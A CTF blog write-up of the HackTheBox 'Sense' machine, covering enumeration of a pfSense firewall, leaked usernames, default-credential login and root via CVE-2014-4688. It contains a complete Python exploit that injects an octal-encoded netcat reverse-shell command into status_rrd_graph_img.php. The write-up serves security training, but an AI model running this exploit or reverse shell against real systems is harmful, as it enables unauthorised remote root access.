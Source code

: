 ```yaml
---
weight: 1
title: "HackTheBox - Sense Writeup"
date: 2022-11-13
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
description: "HacktheBox - Sense Writeup"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["CVE-2014-4688", "pfsense-default-creds", "pfsense", "gobuster", "python", "rce"]
categories: ["HacktheBox","OpenBSD"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/709" name="lkys37en" picture="https://www.hackthebox.com/storage/avatars/17318612f22650dd53240578156ab264.png" >}}

<!--more-->

## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,443 -sCV -oN nmap/sense 10.10.10.60

80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/

443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

Well, only `2` ports are open, which is port `80` and `443`. Based on the port and service itself, looks like I'm dealing with the webserver this time. However, the scan results show me that the `url` on port `80` has been redirected to port `443` which is the `HTTPS` port.

## Https: Pfsense
I've navigated to port `443` on my browser and accepted the `SSL` certificates. I'll check the certificate and nothing useful for me. Turn's out, it is a [Pfsense](https://www.pfsense.org/) login page. Then, I'll try login in with the default credentials which is `admin:pfsense` and nothing unveil. By the look at the `index` page extension, this is a `PHP` webpage.

![pfsense login page](login-page.png "pfsense login page")

### Gobuster
Then, I run the [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. Unfortunately, I can't find anything useful and it's just found empty directories. So, I ended up putting a bunch of extensions such as `php,txt,html,cgi` for the second scan, and it manage to find "gold".

![gobuster](gobuster-scan.png "gobuster")

### Https: /changelog.txt
The first file that caught my attention is called `changelog.txt`. Upon expecting the file it says `"2 of 3 vulnerabilities have been patched"`. This gives me an idea of this particular version having a severe flaw that hasn't been patched. I have 1/3 luck here, to find which one of the flaws is.

![changelog.txt](changelog-txt.png "changelog.txt")

### Https: /system-users.txt
Anyways, I've navigated to another text file called `system-users.txt` which leaks the username. However, the password says `"company defaults"`. Then, it makes me think it could be the box name which is `sense` just like [nibbles](https://shafiqaiman.com/hackthebox-nibbles-writeup/) box that I did before, or the default [Pfsense](https://www.pfsense.org/) credentials which is `pfsense`.

![found username](system-users-txt.png "found username")

### Https: Pfsense/Dashboard
I'll try both credentials and the correct one is `pfsense` and it looks just like a generic pfsense dashboard, what do I expect :). However, it has the version number sitting in front of me which is `2.1.3-RELEASE`.

![pfsense version](version-number.png "pfsense version")

## Foothold: CVE-2014-4688
Since this is an old box, I immediately find the exploit and cve with it. This vulnerability is assigned to [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) and the description says `"this CVE assign to 3 vulnerabilty found in pfsense"`. However, one of them did not patch as the `changelog.txt` file expose to me. Luckily, I find this [exploit](https://www.exploit-db.com/exploits/43560) on [exploit-db](https://www.exploit-db.com/). Which explores the vulnerability in post-authentication in the `status_rrd_graph_img.php` page but again I want to be "l33t" and create my exploits by copying the existent exploits. (Why not? lol). Credited to Ryan McFarland aka [absolomb](https://www.absolomb.com/) and here are the results.

```python
#!/usr/bin/env python3
import sys
import argparse
import requests
from bs4 import BeautifulSoup as bs
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser()
parser.add_argument('-U', '--username', metavar='', help='Username')
parser.add_argument('-P', '--password', metavar='', help='Password')
parser.add_argument('-r', '--rhost', metavar='', help='Remote IP')
parser.add_argument('-i', '--lhost', metavar='', help='Listening IP')
parser.add_argument('-p', '--lport', metavar='', help='Listening port')
args = parser.parse_args()

def get_csrf():
    req = requests.get(f"https://{args.rhost}/index.php", verify=False)
    soup = bs(req.text, features="lxml")
    csrf = soup.find('input', {'name':'__csrf_magic'})['value']
    return csrf

def payload(ip, port):
    payload = ""
    command = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {ip} {port} > /tmp/f"
    for char in command:
        payload += ("\\" + oct(ord(char)).lstrip("0o"))
    return payload

if __name__ == '__main__':
    try:
        s = requests.Session()
        csrf = get_csrf()
        payload = payload(args.lhost, args.lport)

        data = {'__csrf_magic':csrf, 'usernamefld':args.username, 'passwordfld':args.password, 'login':'Login'}
        req = s.post(f"https://{args.rhost}/index.php", data=data, verify=False)
        print(f"LOGIN... {req.status_code}")

        print("Trying to exploit...")
        req = s.get(f"https://{args.rhost}/status_rrd_graph_img.php?database=queues;printf+'{payload}'|sh", verify=False)
        print("If you see this, it's doesn't work!")
    except (KeyboardInterrupt, requests.exceptions.ConnectionError) as Error:
        sys.exit()
```

![shell as root](root.png "shell as root")

BOOM! root baby! this is because firewall applications tend to be installed under root privilege.